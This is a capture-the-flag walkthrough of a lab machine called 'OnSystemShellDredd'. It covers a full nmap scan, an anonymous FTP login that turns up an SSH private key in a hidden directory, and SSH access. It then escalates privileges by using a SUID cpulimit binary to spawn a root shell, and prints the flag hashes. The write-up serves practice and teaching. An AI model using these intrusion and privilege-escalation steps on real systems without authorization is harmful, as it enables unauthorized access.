




# OnSystemShellDredd

**Difficulty:** Easy  - Light Warm Up
**Time:** 00:14:25  

---

## Summary

A beginner-friendly box involving anonymous FTP enumeration to find an SSH private key, followed by SUID exploitation for privilege escalation.

---

## Enumeration

### Nmap Scan

```bash
nmap -p- 192.168.207.130 --min-rate=1000
```

**Open Ports:**
- 21 - FTP
- 61000 - SSH



---

## Initial Access

### FTP Enumeration

Connected to FTP using anonymous login:

```bash
ftp 192.168.207.130
```

- Username: `anonymous`
- Password: (blank)

Standard `ls` showed nothing. Using `ls -la` revealed a hidden directory:

```
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
```


Inside `.hannah`, found an SSH private key:

```bash
cd .hannah
get id_rsa
```



### SSH Access

Set proper permissions and connected:

```bash
chmod 600 id_rsa
ssh -i id_rsa hannah@192.168.207.130 -p 61000
```


### Local Flag

```bash
cat local.txt
80e4105556ec41935b0781414452b00f
```



---

## Privilege Escalation

### SUID Enumeration

```bash
find / -perm -4000 -type f 2>/dev/null
```

Found unusual SUID binary: `/usr/bin/cpulimit`


### Cpulimit Exploit

Used cpulimit to spawn a root shell:

```bash
cpulimit -l 100 -f -- /bin/sh -p
```


### Root Flag

```bash
cat /root/proof.txt
29b1785a02a0fe814d339c10e74a3474
```



---

## Tips

- Always scan all 65535 ports - SSH was on port 61000
- Use `ls -la` on FTP to find hidden files/directories
- Check for unusual SUID binaries with GTFOBins

---

## References

- [GTFOBins - cpulimit](https://gtfobins.github.io/gtfobins/cpulimit/)
